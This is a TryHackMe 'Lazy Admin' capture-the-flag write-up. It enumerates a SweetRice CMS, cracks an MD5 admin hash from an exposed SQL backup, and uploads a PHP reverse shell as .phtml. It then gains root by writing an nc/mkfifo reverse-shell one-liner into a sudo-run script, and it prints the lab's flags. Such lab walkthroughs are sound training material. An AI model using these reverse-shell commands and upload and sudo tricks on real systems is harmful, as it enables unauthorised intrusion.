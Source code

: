 # TryHackMe - Lazy Admin

## 🛠 Setup

Set an environment variable for the IP to simplify commands:

```bash
export IP=10.10.29.138
```

## 📌 Task 1: Lazy Admin

### 🔍 Nmap Scan

**Using all ports takes forver**

```bash
nmap -sC -sV -oN nmap/initial $IP
```

**Results:**

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)             
| ssh-hostkey:                                                                                
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)                                
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)                               
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)                             
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))                                           
|_http-server-header: Apache/2.4.18 (Ubuntu)                                                  
|_http-title: Apache2 Ubuntu Default Page: It works                                           
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### 🔍 Gobuster

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.29.138 -x .php,.txt,.html
```

**Results**
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 11321]
/.php                 (Status: 403) [Size: 277]
/content              (Status: 301) [Size: 314] [--> http://10.10.29.138/content/]

```
* Going to /content/ I find it's sweetrice! 
Let's update gobuster and look for stuff under /content/

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.29.138/content/ -x .php,.txt,.html

```
**Results**
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/images               (Status: 301) [Size: 321] [--> http://10.10.29.138/content/images/]
/index.php            (Status: 200) [Size: 2198]
/license.txt          (Status: 200) [Size: 15410]
/js                   (Status: 301) [Size: 317] [--> http://10.10.29.138/content/js/]
/changelog.txt        (Status: 200) [Size: 18013]
/inc                  (Status: 301) [Size: 318] [--> http://10.10.29.138/content/inc/]
/as                   (Status: 301) [Size: 317] [--> http://10.10.29.138/content/as/]
/_themes              (Status: 301) [Size: 322] [--> http://10.10.29.138/content/_themes/]
/attachment           (Status: 301) [Size: 325] [--> http://10.10.29.138/content/attachment/]
```

A quick look at changelog.txt reveals it's running version 1.5.0
Google shows some exploits but they all seem tricky. I am not sure I need cross side scripting and I do not want to use metasploit!

/inc/ is interesting. There is a SQL backup file!

Downloded that in firefox. In there is the user name and a hash

```
"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\"
```

So the user name is manager
Let's run hashcat on the hash

```bash
hashcat 42f749ade7f9e195bf475f37a44cafcb
```

**Results**
```
     # | Name                                                       | Category
  ======+============================================================+======================================
    900 | MD4                                                        | Raw Hash
      0 | MD5                                                        | Raw Hash
     70 | md5(utf16le($pass))                                        | Raw Hash
   2600 | md5(md5($pass))                                            | Raw Hash salted and/or iterated
   3500 | md5(md5(md5($pass)))                                       | Raw Hash salted and/or iterated
   4400 | md5(sha1($pass))                                           | Raw Hash salted and/or iterated
  20900 | md5(sha1($pass).md5($pass).sha1($pass))                    | Raw Hash salted and/or iterated
   4300 | md5(strtoupper(md5($pass)))                                | Raw Hash salted and/or iterated
   1000 | NTLM                                                       | Operating System
   9900 | Radmin2                                                    | Operating System
   8600 | Lotus Notes/Domino 5                                       | Enterprise Application Software (EAS)
```

It looks like it's MD5
Let's use John the Ripper to crack it

```bash
echo "42f749ade7f9e195bf475f37a44cafcb" hash
john hash -format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt
```
Yikes that was quick!

```
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
Password123      (?)     
1g 0:00:00:00 DONE (2025-06-24 00:31) 100.0g/s 3360Kp/s 3360Kc/s 3360KC/s coco21..181193
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

Let's login using http://10.10.29.138/content/as/
user: manager
password; password1

**We're logged in as www-root**

Have a look around and I found a way to upload a file
Lets get the reverse shell from pentestmonkey and update for my IP and port. https://pentestmonkey.net/tools/web-shells/php-reverse-shell

I tried to upload the php file but it was not allowed
However, phtml worked just fine.
File uploaded!
Let's open a listener on my box
```bash
nc -nlvp 8888
```

Now open the file I just uploaded in the web browser
** bingo, I have my reverse shell!! **

Let's get the user flag!

```bash
cat /home/itguy/user.txt
```

**Q. What is the user flag
A. THM{63e5bce9271952aad1113b6f1ac28a07}

### Now the root flag!

```bash
sudo -l
```

**results**

```
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

***what is backup.pl?
```bash
cat /home/itguy/backup.pl
```
**results**
```
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
*I don't heve permissions to edit this file. Maybe I'll have better luck with copy.sh

**results for copy.sh**
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

This one I can edit but I do not have a real shell and can't open nano. I tries to stabalize the shell several times but it never worked. Just hung. **something I need to play with**
Maybe I can just echo a new file over the existing

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 10.6.57.243 5554 > /tmp/f" > /etc/copy.sh
```

Yes that worked. Almost there!

Setup a listener on port 5554 on my host and then execute the perl command

```bash 
sudo perl /home/itguy/backup.pl
```

Bingo. I got a reverse shell and now root! Let's cat that root flag


**Q. What is the root flag
A. THM{6637f41d0177b6f37cb20d775124699f}



 
